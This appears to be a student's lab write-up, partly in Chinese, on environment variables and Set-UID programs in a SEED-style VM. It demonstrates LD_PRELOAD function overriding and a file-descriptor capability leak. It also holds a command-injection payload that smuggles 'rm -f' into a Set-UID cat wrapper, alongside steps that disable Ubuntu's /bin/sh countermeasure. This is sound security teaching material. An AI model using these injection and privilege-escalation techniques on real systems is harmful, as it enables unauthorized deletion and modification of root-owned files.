

# Environment Variable and Set-UID

## Task 1: Manipulating Environment Variables

`env`, `printenv`

`export`, `unset`

## Task 2: Passing Environment Variables from Parent Process to Child Process

`myprintenv.c`的内容：

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

void printenv()
{
  int i = 0;
  while (environ[i] != NULL) {
     printf("%s\n", environ[i]);
     i++;
  }
}

void main()
{
  pid_t childPid;
  switch(childPid = fork()) {
    case 0:  /* child process */
      //printenv();   // child.txt       
      exit(0);
    default:  /* parent process */
       printenv();	// parent.txt
      exit(0);
  }
}
```


```
gcc myprintenv.c
a.out > child.txt
vim myprintenv.c
gcc myprintenv.c
a.out > parent.txt
diff child.txt parent.txt
```


The same.



通过`fork()`创建的子进程拥有和父进程一样的环境变量。

## Task 3: Environment Variables and `execve()`

`myenv.c`的内容：

```c
#include <unistd.h>

extern char **environ;

int main()
{
  char *argv[2];

  argv[0] = "/usr/bin/env";
  argv[1] = NULL;

  execve("/usr/bin/env", argv, NULL);  

  return 0 ;
}

```

```shell
gcc myenv.c
./a.out
```

输出为空。

将`execve("/usr/bin/env", argv, NULL);  `改为`execve("/usr/bin/env", argv, environ);  `，重新编译并运行。

```shell
gcc myenv.c
./a.out > execve.txt
diff execve.txt parent.txt
```


输出：和`parent.txt`、`child.txt`一致。

## Task 4: Environment Variables and `system()`

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
  system("/usr/bin/env");
  return 0 ;
}
```

输出内容与`parent.txt`不尽相同。

`system()`调用了`execl()`来运行`/bin/sh`，而`execl()`调用`execve()`。

## Task 5: Environment Variable and Set-UID Programs

```c
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
int main()
{
	int i = 0;
	while (environ[i] != NULL) {
		printf("%s\n", environ[i]);
		i++;
	}
}
```

```shell
sudo chown root ./a.out
sudo chmod 4755 ./a.out
```

然后修改环境变量`PATH`、`LD_LIBRARY_PATH`和`ANY_NAME`的内容为`test`。运行`./a.out`

结果：输出结果中有`PATH=test`和`ANY_NAME=test`，但没有`LD_LIBRARY_PATH`。

## Task 6: The PATH Environment Variable and Set-UID Programs

首先，用root账户创建文件`file_of_root`。

然后，切换到`seed`，

```c
#include <unistd.h>
#include <stdlib.h>
int main()
{
//system("ls");
system("rm -rf file_of_root");
return 0;
}
```

```shell
sudo chown root ./a.out
sudo chmod 4755 ./a.out
./a.out
```

发现`file_of_root`被删除。

## Task 7: The LD_PRELOAD Environment Variable and Set-UID Programs

`mylib.c`

```c
#include <stdio.h>
void sleep (int s)
{
/* If this is invoked by a privileged program,
you can do damages here! */
  printf("I am not sleeping!\n");
}
```

```shell
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
export LD_PRELOAD=./libmylib.so.1.0.1
```

`myprog.c`

```c
/* myprog.c */
#include <unistd.h>
int main()
{
  sleep(1);
  return 0;
}
```

* Make myprog a regular program, and run it as a normal user. （mylib里的sleep）

* Make myprog a Set-UID root program, and run it as a normal user. （标准库的sleep）

* Make myprog a Set-UID root program, export the LD PRELOAD environment variable again in the root account and run it. （mylib里的sleep）

* Make myprog a Set-UID user1 program (i.e., the owner is user1, which is another user account), export the LD PRELOAD environment variable again in a different user’s account (not-root user) and run it. （export前：标准库的sleep；export后：mylib的sleep）

## Task 8: Invoking External Programs Using `system()` versus `execve()`

`catall.c`

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
  char *v[3];
  char *command;

  if(argc < 2) {
    printf("Please type a file name.\n");
    return 1;
  }

  v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

  command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
  sprintf(command, "%s %s", v[0], v[1]);

  // Use only one of the followings.
  system(command);
  // execve(v[0], v, NULL);

  return 0 ;
}
```

``` shell
# echo "test" > /root/file_of_root
$ sudo chown root ./a.out
$ sudo chmod 4755 ./a.out

```

注：下一步之前可能需要禁用Ubuntu的对策：

```shell
sudo ln -sf /bin/zsh /bin/sh
```

恢复Ubuntu的对策可以用：

```shell
sudo ln -sf /bin/dash /bin/sh
```


然后：

```shell
[02/02/22]seed@VM:~/.../envvar-setuid$ ./a.out "/root/file_of_root;rm -f /root/file_of_root"
test

```

payload：`./a.out "/root/file_of_root;rm -f /root/file_of_root"`即会删除`file_of_root`。

如果将代码中的`system()`换成`execve()`，则攻击不再有效。

## Task 9: Capability Leaking

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

void main()
{
  int fd;
  char *v[2];

  /* Assume that /etc/zzz is an important system file,
   * and it is owned by root with permission 0644.
   * Before running this program, you should create
   * the file /etc/zzz first. */
  fd = open("/etc/zzz", O_RDWR | O_APPEND);        
  if (fd == -1) {
     printf("Cannot open /etc/zzz\n");
     exit(0);
  }

  // Print out the file descriptor value
  printf("fd is %d\n", fd);

  // Permanently disable the privilege by making the
  // effective uid the same as the real uid
  setuid(getuid());                                

  // Execute /bin/sh
  v[0] = "/bin/sh"; v[1] = 0;
  execve(v[0], v, 0);                             
}
```


虽然程序使用`setuid`降低了权限，但没有关闭fd。

```shell
# touch /etc/zzz
# chmod 0644 /etc/zzz
$ gcc -o cap_leak cap_leak.c
$ sudo chown root cap_leak
$ sudo chmod 4755 cap_leak
$ ./cap_leak
fd is 3
$ echo "test" >&3                                                              
$ exit
# cat /etc/zzz
test
```

